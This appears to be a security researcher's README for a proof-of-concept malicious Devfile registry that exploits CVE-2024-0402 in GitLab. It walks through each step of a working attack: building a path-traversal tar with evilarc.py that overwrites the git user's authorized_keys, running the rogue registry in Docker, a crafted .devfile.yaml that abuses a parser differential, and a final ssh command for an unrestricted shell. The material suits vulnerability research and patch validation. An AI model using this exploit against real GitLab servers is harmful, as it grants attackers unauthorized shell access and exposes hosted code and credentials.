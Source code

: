 # Malicious Devfile Registry

The project contains a malicious Devfile Registry usable to exploit CVE-2024-0402 in Gitlab.

Any devfile client relying on it could be attacked with this PoC registry. Nevertheless, our main goal was building a reliable exploit for CVE-2024-0402.

## The Exploit

A `nodejs:2.2.1` stack is indexed to expose the `archive.tar` file exploiting the path-traversal issue in [registry-support library before v1.1.0](https://github.com/devfile/registry-support/commit/10b01bc136bd082f59b1ac0c91797f4065792d7b){:target="_blank"}.

*tar location*: `malicious-devfile-registry/stacks/nodejs/2.2.1/archive.tar`

It was created using the [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) to overwrite the `/var/opt/gitlab/.ssh/authorized_keys` in the target Gitlab Server with the SSH keys under `ssh-keys/` folder in this repo.

```
python3 evilarc.py authorized_keys -f authzkeys.tar.gz -p var/opt/gitlab/.ssh/ -o unix
```

Once running, the registry will have the malicious *.tar* added to the fetchable stacks.
See the `index.json` listing it among the stack resources:
```
...
"links": {
          "self": "devfile-catalog/nodejs:2.2.1"
        },
        ...
        "resources": [
          "devfile.yaml",
          "archive.tar"
        ],
...
```

## Reproduction Steps

Configure a Gitlab Instance EE with version <=16.8.0. Enable Workspaces on it following the docs and the extra notes in our dedicated [!exploitable series blogpost](https://blog.doyensec.com/2025/03/13/exploitable-gitlab.html). 

Whenever ready, follow the steps below:

1. Run `docker build -t devfile-index .` in the root of this repo to build the registry container image

2. Run `docker run -d -p 5000:5000 --name local-registrypoc registry:2` to run a local container registry that will be used by the Devfile registry to store the stack. **Note:** you should edit the command to expose it according to your need. For us, it was all happening in a local environment

3. Run `docker run --network host devfile-index` to start the malicious Devfile registry built at step one. **Note:** Like before, edit the run command as you wish to make it reachable by the Gitlab instance

4. Authenticate as developer to the target Gitlab server, then edit the `.devfile.yaml` of a repository you control. The YAML must exploit the parser differential to allow fetching from the malicious registry

```yaml
schemaVersion: 2.2.0
!binary parent:
    id: nodejs
    registryUrl: http://<YOUR_MALICIOUS_REGISTRY>:<PORT>
components:
  - name: development-environment
    attributes:
      gl/inject-editor: true
    container:
      image: "registry.gitlab.com/gitlab-org/gitlab-build-images/workspaces/ubuntu-24.04:20250109224147-golang-1.23@sha256:c3d5527641bc0c6f4fbbea4bb36fe225b8e9f1df69f682c927941327312bc676"
```

5. To trigger the file-write in the Gitlab UI, just start a new Workspace in the edited repo.
After few seconds, the arbitrary file write should happen and the `ssh-keys/pockey.pub` will be added to the `authorized_keys` of the `git` user

6. You should be able to enjoy an unrestricted shell as `git` with `ssh  -i ssh-keys/pockey git@<YOUR_GITLAB_SERVER>`
